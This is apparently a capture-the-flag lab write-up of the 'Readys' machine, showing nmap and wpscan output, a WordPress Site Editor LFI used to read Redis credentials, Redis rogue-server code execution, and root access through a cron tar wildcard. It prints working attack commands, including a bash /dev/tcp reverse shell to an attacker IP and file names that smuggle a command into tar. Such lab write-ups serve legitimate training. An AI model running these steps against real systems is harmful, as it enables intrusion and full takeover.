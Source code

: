 # Readys

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 3000 -Pn 192.168.208.166                   
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-21 15:23 +08
Nmap scan report for 192.168.208.166
Host is up (0.17s latency).
Not shown: 65532 closed tcp ports (conn-refused)
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
6379/tcp open  redis
```

Redis is enabled on this, which is probably vulnerable somehow. I did a detailed scan too:

```
$ nmap -p 80,6379 -sC -sV --min-rate 3000 192.168.208.166        
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-21 15:24 +08
Nmap scan report for 192.168.208.166
Host is up (0.18s latency).

PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.38 ((Debian))
|_http-title: Readys &#8211; Just another WordPress site
|_http-server-header: Apache/2.4.38 (Debian)
|_http-generator: WordPress 5.7.2
6379/tcp open  redis   Redis key-value store
```

Wordpress was running on the site, so let's scan that first.

### Redis Creds Block

The Redis instance needed credentials to enumerate:

```
$ redis-cli -h 192.168.208.166
192.168.208.166:6379> INFO
NOAUTH Authentication required.
```

### Wordpress LFI --> Redis Creds

I used `wpscan` on the website and found a vulnerable plugin.&#x20;

```
$ wpscan --api-token mytoken --enumerate p,t,u --url http://192.168.208.166
<TRUNCATED>
[+] site-editor
 | Location: http://192.168.208.166/wp-content/plugins/site-editor/
 | Latest Version: 1.1.1 (up to date)
 | Last Updated: 2017-05-02T23:34:00.000Z
 |
 | Found By: Urls In Homepage (Passive Detection)
 |
 | [!] 1 vulnerability identified:
 |
 | [!] Title: Site Editor <= 1.1.1 - Local File Inclusion (LFI)
 |     References:
 |      - https://wpscan.com/vulnerability/4432ecea-2b01-4d5c-9557-352042a57e44
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-7422
 |      - https://seclists.org/fulldisclosure/2018/Mar/40
 |      - https://github.com/SiteEditor/editor/issues/2
```

I confirmed that this works:

<figure><img src="../../../.gitbook/assets/image (10).png" alt=""><figcaption></figcaption></figure>

So we have an LFI, and the only other exploitable thing is the Redis instance. I tried to find credentials for it using this LFI, and found it within `/etc/redis/redis.conf`:

{% code overflow="wrap" %}
```
$ curl http://192.168.208.166/wp-content/plugins/site-editor/editor/extensions/pagebuilder/includes/ajax_shortcode_pattern.php?ajax_path=/etc/redis/redis.conf > redis.conf
```
{% endcode %}

Searching for the `AUTH` string allowed me to find the password:

<figure><img src="../../../.gitbook/assets/image (30).png" alt=""><figcaption></figcaption></figure>

We can then enumerate the database:

<figure><img src="../../../.gitbook/assets/image (2) (3).png" alt=""><figcaption></figcaption></figure>

### Redis RCE

The Redis instance is vulnerable to RCE through the module loading exploit with Redis Rogue Server:

{% embed url="https://github.com/n0b0dyCN/redis-rogue-server" %}

<figure><img src="../../../.gitbook/assets/image (28).png" alt=""><figcaption></figcaption></figure>

We can easily get a reverse shell using this RCE exploit:

<figure><img src="../../../.gitbook/assets/image (6).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### Redis --> Alice

This user had extremely limited privileges over the file system. There was a user present, but I cold not even read the `/home` directory. There wasn't much else we could do besides try to execute PHP reverse shells using the LFI we had.

I wrote a PHP reverse shell to the `/opt/redis-cli` directory. Then, using our LFI, we can execute it:

{% code overflow="wrap" %}
```
$ curl http://192.168.208.166/wp-content/plugins/site-editor/editor/extensions/pagebuilder/includes/ajax_shortcode_pattern.php?ajax_path=/opt/redis-files/phpreverseshell.php
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/image (26).png" alt=""><figcaption></figcaption></figure>

### Cronjob --> Tar Command Injection

I ran `pspy64` on the machine to see what processes were being run.

```
2023/07/21 03:51:01 CMD: UID=0    PID=839    | /usr/sbin/CRON -f 
2023/07/21 03:51:01 CMD: UID=0    PID=840    | /bin/sh -c /usr/local/bin/backup.sh
```

`root` is running a script here:

```bash
alice@readys:~$ cat /usr/local/bin/backup.sh
#!/bin/bash

cd /var/www/html
if [ $(find . -type f -mmin -3 | wc -l) -gt 0 ]; then
tar -cf /opt/backups/website.tar *
fi
```

This script checks multiple files at one go (3 in this case) Based on GTFOBins, we can use `tar` to execute commands.

{% embed url="https://gtfobins.github.io/gtfobins/tar/" %}

```bash
./tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```

To exploit this, we just need to create two files, one called `--checkpoint=1` and another called `--checkpoint-action=exec=bash ez.sh`.&#x20;

We can first create `ez.sh`:

```bash
echo '#!/bin/bash' > ez.sh
echo 'bash -i >& /dev/tcp/192.168.45.153/21 0>&1' >> ez.sh
chmod 777 ez.sh
```

Then, we can create the two files needed.

```bash
touch ./'--checkpoint=1'
touch ./'--checkpoint-action=exec=bash ez.sh'
```

After a while, the `root` user would execute the script and we would get a reverse shell:

![](<../../../.gitbook/assets/image (24).png>)
